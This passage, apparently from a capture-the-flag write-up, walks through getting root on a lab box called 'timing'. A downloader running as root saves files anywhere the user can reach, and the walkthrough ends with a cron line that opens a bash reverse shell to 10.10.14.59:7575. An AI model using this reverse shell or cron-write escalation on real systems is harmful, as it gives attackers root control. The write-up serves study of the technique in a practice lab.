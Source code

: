 ```
$ echo  lghrkjlhgfdjkghfdkjghdfkjghfd > test_file_12354
```

We server the file using python and enter the url.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
Enter Url: 10.10.14.59/test_file_12354
Initializing download: http://10.10.14.59/test_file_12354
File size: 30 bytes
Opening output file test_file_12354
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 30 byte in 0 seconds. (0.29 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >>
```

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.189.14 - - [11/Dec/2021 23:53:34] "GET /test_file_12354 HTTP/1.0" 200 -
10.129.189.14 - - [11/Dec/2021 23:53:35] "GET /test_file_12354 HTTP/1.0" 200 -
```

The file got downloaded in our current working directory and is owned by root.

```
aaron@timing:~$ find / -name test_file_12354 -ls 2>/dev/null
     3152      4 -rw-r--r--   1 root     root           30 Dec 11 23:53 /home/aaron/test_file_12354
aaron@timing:~$ pwd
/home/aaron
```

### Cronjob

One way to abuse this is the fact we have file write as the root user in any directory we are able to cd into. Getting root from here is as simple as creating a cronjob file on our machine that sends a reverse shell back to us.

`legit`
```
* * * * *   root    bash -c 'bash -i >&/dev/tcp/10.10.14.59/7575 0>&1'
```
